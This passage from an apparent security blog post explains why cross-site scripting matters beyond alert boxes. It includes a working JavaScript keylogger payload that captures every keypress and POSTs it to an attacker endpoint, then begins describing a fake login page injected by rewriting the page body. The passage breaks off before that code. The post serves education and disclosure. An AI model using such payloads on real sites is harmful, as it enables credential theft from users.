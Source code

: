 The closing tag, whilst technically invalid markup, would actually be interpreted correctly. As web browsers try to mitigate user errors were possible, it will detect the extra attribute in the closing tag and simply ignore it, as can be seen in the inspector below:

![]({{ site.baseurl }}/assets/img/2018-12-18-a-deeper-look-into-xss-payloads/replaced-pattern.png)

## The Impact Goes Beyond Alerts!
One may attribute part of cross-site scripting being downplayed to the proof of concepts that are typically used in disclosures (i.e. popping an alert box). Although calling `alert` will serve its purpose of demonstrating that a vulnerability exists - it frequently does not demonstrate the potential real world impact. This has left a gap in knowledge regarding what can be achieved with JavaScript execution and how serious the implications could be.

### Where We're Going, We Don't Need Session Cookies
The hijacking of session cookies is probably the biggest potential threat to the primary target in a cross-site scripting attack as this will more often than not lead to a full compromise of the user's session.

As more and more people have been educated about the threat of session cookies being stolen, there's been quite a big move towards people utilising the [HttpOnly](https://www.owasp.org/index.php/HttpOnly) flag to mitigate this; but this is not the only way to hijack the account!

There are a **lot** of events that can be hooked into using JavaScript, one such event is the [keypress](https://developer.mozilla.org/en-US/docs/Web/Events/keypress) event (can you see where this is going?). By adding a callback for the `keypress` event against the `document` element, it is possible to intercept every key stroke; regardless of whether the focus is on an input field or not.

By utilising this event, an attacker can effectively implant a keylogger within the user's browser and exfiltrate key strokes - potentially revealing login credentials.

<video autoplay="true" loop="true" src="{{ site.baseurl }}/assets/videos/2018-12-18-a-deeper-look-into-xss-payloads/keylogger.m4v"></video>

In the above video, the keypress events are captured and sent to a local web server by including a JavaScript file with the following content:

```javascript
document.addEventListener('keypress', function (event) {
  var xhr = new XMLHttpRequest()
  xhr.open('POST', '/keylogger')
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
  xhr.send('data=' + event.key)
})
```

### DOM Manipulation
Although the keylogger PoC worked fine, if the end-user has no reason to enter sensitive information, one may assume that this attack vector would effectively be voided.

By modifying the previous PoC slightly, the DOM at the time of execution can be modified to replace the existing body with a new one which contains a login page.

To do this, arbitrary markup is assigned to the `document.body.innerHTML` property like so:

